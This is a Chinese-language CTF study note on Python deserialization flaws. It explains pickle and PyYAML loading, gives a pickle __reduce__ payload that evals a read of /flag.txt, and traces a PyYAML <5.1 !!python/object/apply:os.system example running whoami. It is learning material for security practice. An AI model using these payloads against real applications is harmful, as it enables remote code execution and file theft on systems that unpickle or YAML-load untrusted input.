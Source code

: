 ```yaml
---
title: Python反序列化
date: 2023/5/1 15:00:25
categories:
- CTF
---
```


[pickle反序列化初探](https://xz.aliyun.com/t/7436)

题目

https://blog.csdn.net/satasun/article/details/109708593

python魔术方法指南

https://blog.csdn.net/bluehawksky/article/details/79027055

https://ca01h.top/Python/pysec/3.Python%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E/



## pickle

序列化

```python
pickle.dump(文件) 
pickle.dumps(字符串)
```

反序列化

```python
pickle.load(文件)
pickle.loads(字符串)
```

检测

> 全局搜索Python代码中是否含有关键字类似“import cPickle”或“import pickle”等，若存在则进一步确认是否调用cPickle.loads()或pickle.loads()且反序列化的参数可控。

payload

```python
#py2
import pickle
import urllib

class payload(object):
    def __reduce__(self):
        #第一个参数返回函数名，第二个参数返回函数所需参数
       return (eval, ("open('/flag.txt','r').read()",))

a = pickle.dumps(payload())
a = urllib.quote(a)
print a
```



## yaml

序列化

```python
yaml.dump()
```

反序列化

```python
yaml.load()
```

漏洞成因

由于 YAML 仅仅是一种格式规范，所以理论上一个支持 YAML 的解析器可以选择性支持 YAML 的某些语法，也可以在 YAML 的基础上利用 `!!` 来扩展额外的解析能力。

在python的 PyYAML中

![image-20221105145956780](E:\typora img\image-20221105145956780.png)

yaml < 5.1

```python
import yaml

yaml.load('exp: !!python/object/apply:os.system ["whoami"]')
```

进入construct_python_object_apply函数

![image-20221105152757350](E:\typora img\image-20221105152757350.png)

进入make_python_instance函数

![image-20221105152926377](E:\typora img\image-20221105152926377.png)

![image-20221105151915033](E:\typora img\image-20221105151915033.png)

进入find_python_name函数

![image-20221105152100378](E:\typora img\image-20221105152100378.png)

![image-20221105152121346](E:\typora img\image-20221105152121346.png)

然后`return getattr('os','system')` 返回给cls

![image-20221105152504005](E:\typora img\image-20221105152504005.png)

然后`return cls(*args, **kwds)` --> `os.system(whoami)` 就执行了我们构造的命令。

最后返回给instance

![image-20221105152654175](E:\typora img\image-20221105152654175.png)

如何构造payload

![image-20221105154558121](E:\typora img\image-20221105154558121.png)

![image-20221105155002281](E:\typora img\image-20221105155002281.png)